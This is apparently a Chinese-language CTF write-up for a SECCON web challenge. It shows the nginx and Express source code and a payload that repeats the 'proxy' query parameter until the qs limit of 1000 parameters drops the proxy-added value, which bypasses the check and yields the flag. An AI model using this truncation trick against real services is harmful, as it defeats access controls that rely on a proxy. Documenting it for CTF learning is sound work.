 ![[Pasted image 20221117144136.png|500]]

---
首页长这样

![[Pasted image 20221117144322.png|800]]

`nginx`配置文件
```nginx
server {
  listen 8080 default_server;
  server_name nginx;

  location / {
    set $args "${args}&proxy=nginx";
    proxy_pass http://web:3000;
  }
}
```

```js
const app = require("express")();

const FLAG = process.env.FLAG ?? "SECCON{dummy}";
const PORT = 3000;

app.get("/", (req, res) => {
  req.query.proxy.includes("nginx")
    ? res.status(400).send("Access here directly, not via nginx :(")
    : res.send(`Congratz! You got a flag: ${FLAG}`);
});

app.listen({ port: PORT, host: "0.0.0.0" }, () => {
  console.log(`Server listening at ${PORT}`);
});

```
尝试过构造参数数组，甚至查过`express`和`qs`的文档，明明是签到题却没有做出来，属实心态崩了呜呜呜

---
今天看到油管上有佬放出了wp，发现属实是自己想复杂了

可能是`nginx`对参数长度的限制，只要我们构造的`url`长度足够长，又不至于引发`414`错误，就能把`nginx`反代中附加的`proxy`参数顶掉

所以`payload`为
```php
/?proxy=a&proxy=a&proxy=a...&proxy=a
```

![[Pasted image 20221117152054.png|1200]]

---
**Edited** 受到了大佬的指点，这题当时其实没走偏，具体原理是`express`调用的`qs`处理参数个数上限为1000个，所以就被顶掉了QwQ，看来要素察觉能力有待加强

![[Pasted image 20221118091053.png|800]]

#Web #nodejs #express #qs #URL #URI #HTTP #nginx 